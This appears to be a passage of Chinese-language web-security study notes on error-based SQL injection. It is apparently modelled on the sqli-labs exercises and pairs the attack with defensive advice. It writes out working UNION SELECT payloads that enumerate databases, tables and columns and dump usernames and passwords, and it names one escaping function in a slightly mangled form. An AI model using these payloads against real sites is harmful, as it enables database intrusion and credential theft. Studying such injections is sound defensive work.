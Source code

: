 ### 2.2.1 Nmap

### 2.2.2 Burpsuite

### 2.2.3 AWVS

## 2.3 SQL 注入 

### 基于报错注入

**漏洞成因**   
未对 SQL 查询语句进行特殊字符的转义以及敏感词的过滤。

**漏洞利用**   

```sql
注入单引号、双引号、单引号加右括号等判断是否存在注入点

order by 3 %23
判断有多少列

union select 1,2,3 %23
判断数据回显位置

union select 1,user(),database() %23
显示出登录用户和数据库名

union select 1,(select group_concat(schema_name) from information_schema.schemata),3 %23
查询所有数据库名称

union select 1,(select group_concat(table_name) from information_schema.tables where table_schema = 'security' ),3 %23
查询 security 库中所有表名

union select 1,(select group_concat(column_name) from information_schema.columns where table_schema = 'security' and table_name='users' ),3 %23
查询 users 表中所有列名

union select 1,(select group_concat(username) from security.users),(select group_concat(password) from security.users) %23
查所有 username 和 password 字段
```

**防护**    
将数据与命令、查询分割开。

1. 最安全的策略，使用安全的 API 进行数据的存取和读写，避免将查询语句和数据连接起来。
2. 使用白名单的服务器输入验证。
3. 对查询语句的特殊字符进行转义，譬如 PHP 中使用函数 `mysqli _real_escape()` 函数。

### 基于 HTTP header 与 Cookie 注入
